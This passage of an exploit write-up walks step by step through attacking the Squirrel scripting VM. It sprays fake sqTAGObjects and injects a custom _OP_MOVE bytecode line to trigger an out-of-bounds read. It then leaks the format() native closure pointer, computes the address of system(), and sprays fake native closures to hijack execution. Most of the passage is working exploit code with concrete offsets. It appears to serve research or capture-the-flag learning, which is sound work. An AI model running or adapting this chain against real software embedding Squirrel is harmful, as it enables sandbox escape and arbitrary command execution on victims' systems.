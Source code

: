 ```lua
print(format("[~] Performing fakeString Spray with 0x%016x!...\n", readTarget))
for(local i=0; i < sSpray.len(); i+= 0x10) {
    #### Build fake sqTAGObject ####
    sSpray.writen(0x08000010, 'i')     # type OT_STRING
    sSpray.writen(0x42424242, 'i')     # padding

    sSpray.writen(readTarget, 'l')     # _unVal
}
```

The heap is now filled with our fake sqTAGObjects. Now we need to use the OOB read in `_OP_MOVE`
to load one of our fake objects. This can't be done through squirrel code, but instead we'll have to inject a cutom line of assembly into the final `cnut` file. 

```lua
local tmp = "AAAABBBBCCCCDDDD"

# --- ASM ---
# '[0x33] _OP_MOVE: 0x8, 0x%x, 0x0, 0x0' % ((0xd650+0x5000) >> 4) # this is the offset to our blob
                                                                  # relative to the vm stack
```

First we create a `tmp` string. It will later be overwritten to hold one of our fakeStrings but in order for the compiler to work properly, we need to give it some placeholder value. 


`tmp` is now a fake SQString with its data pointing to `format()`'s SQNativeClosure. Our goal is to leak the
`_function` pointer of this SQNativeClosure, which is located at offset 0x70 from readTarget. This is 
easy to do, because we can just iterate over the string to get the address and store it to `formatClosure`.

```lua
for(local i=0x77; i>=0x70; i -= 1) {
    local cur = tmp[i] & 0xff;
    formatClosure += cur;
    if(i != 0x70) {
        formatClosure = formatClosure << 8;
    }
}

print(format("[+] Got format _function leak: 0x%016x!\n", formatClosure))
```

Now we're able to calculate the address of `system()` in sqstdlib!

```lua
local systemClosure = formatClosure + 0x4a0
```


With the leak compleated, we're able to spray some more sqTAGObjects. This time, we'll set the type to SQNativeClosure
and the `_unVal` pointer to point to a fake SQNativeClosure object, located at the and of our blob.
```lua
print(format("[~] Performing fakeNativeClosure Spray with 0x%016x!...\n", systemClosure))

sSpray.seek(0x00) # padding
for(local i=0; i < sSpray.len()-0x80; i += 0x10) {
    #### Build fake sqTAGObject ####
    sSpray.writen(0x08000200, 'i')          # type nativeClosure
    sSpray.writen(0x43434343, 'i')          # padding
    
    sSpray.writen(printLeak+0x12700, 'l')   # _unVal --> SQNativeClosure
}
```
